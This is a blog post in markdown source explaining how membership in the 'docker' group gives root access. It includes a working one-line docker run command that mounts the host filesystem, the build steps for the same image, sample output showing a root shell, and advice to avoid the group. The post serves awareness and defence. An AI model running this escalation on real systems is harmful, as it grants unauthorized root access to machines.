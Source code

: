 ```yaml
---
layout: post
permalink: privilege-escalation-via-docker
title: Privilege escalation via Docker
---
```


**TLDR;** Don't use the 'docker' group

[Docker](https://www.docker.com/), if you aren't already familiar with it, is a lightweight runtime and packaging tool. It's very similar to simply running a basic virtual machine, but with much less overhead. It's extremely nice for deploying applications as you can guarantee that they will run in identical environments, and the commit-like image system is handy as well.

If you happen to have gotten access to a user-account on a machine, and that user is a member of the 'docker' group, running the following command will give you a root shell:

<!-- Content Breaker -->

{% highlight console %}
> docker run -v /:/hostOS -i -t chrisfosterelli/rootplease
{% endhighlight %}

<!-- Just in case Docker pulls the image:
**EDIT:** Docker appears to have removed by package from the Hub repository. The above command won't work, but you can achieve the same thing by building the Github repo:

{% highlight console %}
> git clone https://github.com/chrisfosterelli/dockerrootplease rootplease
> cd rootplease/
> docker build -t rootplease .
> docker run -v /:/hostOS -i -t rootplease
{% endhighlight %}
-->

This looks like the following when you run it:

{% highlight console %}
johndoe@testmachine:~$ docker run -v /:/hostOS -i -t chrisfosterelli/rootplease
[...]
You should now have a root shell on the host OS
Press Ctrl-D to exit the docker instance / shell
# whoami
root
# 
{% endhighlight %}

## The problem

When you've spent any amount of time with Docker, a common complaint is that all of the commands require `sudo` prefixing them. _This is for a good reason_. Many of the design decisions that Docker made inherently give significant power to any user who has access to the daemon.

Anyways, because the additional five characters was too much to type, a 'docker' group was introduced to the package. The Docker daemon will allow access to either the root user or any user in the 'docker' group. This means giving someone 'docker' group access is equivalent to giving them _permanent, non-password-protected root access_.

## The solution

This is a hard fix for Docker. Because of many of the design decisions they've opted for, it would require significant code rewriting in order to allow non-root users to access the daemon without it being a security risk. My person advice is just simply not use the 'docker' group, ever. At the very least, this should be made more clear on the [documentation](http://docs.docker.com/installation/ubuntulinux/#create-a-docker-group) for the 'docker' group. A newbie might not understand what 'root-equivalent' really means.

In Docker's defense, they are aware that this is a security problem, although they apparently have no intention of actually fixing it. About half way down in their [security document](http://docs.docker.com/articles/security/#docker-daemon-attack-surface), they do explain that the 'docker' group is root-equivalent and why that is dangerous.

## Exploit details

The command you run to perform the privilege escalation fetches my Docker image from the [Docker Hub Registry](https://registry.hub.docker.com/) and runs it. The `-v` parameter that you pass to Docker specifies that you want to create a [volume](http://docs.docker.com/userguide/dockervolumes/) in the Docker instance. The `-i` and `-t` parameters put Docker into 'shell mode' rather than starting a daemon process.

The instance is set up to mount the root filesystem of the host machine to the instance's volume, so when the instance starts it immediately loads a `chroot` into that volume. This effectively gives you root on the machine.

There are _many, many_ other ways to achieve this, but this was one of the most straightforward. You can find the code in the [Github](https://github.com/chrisfosterelli/dockerrootplease) repo and the actual image on [Docker Hub](https://registry.hub.docker.com/u/chrisfosterelli/rootplease/).

Got any questions? [Tweet me.](https://twitter.com/chrisfosterelli)
